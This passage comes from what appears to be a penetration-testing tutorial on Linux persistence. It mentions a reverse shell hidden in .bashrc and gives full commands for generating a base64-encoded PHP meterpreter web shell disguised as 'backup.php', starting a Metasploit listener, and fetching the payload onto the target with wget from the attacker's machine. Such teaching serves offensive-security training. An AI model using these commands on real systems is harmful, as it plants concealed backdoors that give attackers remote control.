     netcat listener receiving bashrc netcat connection

    We have now been able to set up persistence via the .bashrc file, this technique has the added advantage of being harder to detect as the reverse shell command is hidden within a legitimate configuration file.

++++++++++++++++++++
Persistence Via Web Shell
++++++++++++++++++++

This persistence technique involves generating and uploading a PHP web shell to the target server. Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor.

    The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:

     msfvenom -p php/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -e php/base64 -f raw > backup.php

    In order to evade detection, we will save the payload with a filename of “backup.php”.

    Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

![](vx_images/251291675927713.png)

    We can now set up the listener with Metasploit by running the following commands:

     msfconsole
     use multi/handler
     set payload php/meterpreter/reverse_tcp
     set LHOST <KALI-IP>
     set LPORT <PORT>
     run

    The next step will involve uploading the PHP shell that we just generated to the web server, this can be done by setting up a local web server on the Kali VM:

     sudo python -m SimpleHTTPServer 80

    Then, download it on the target:

     wget http://<KALI-IP>/backup.php
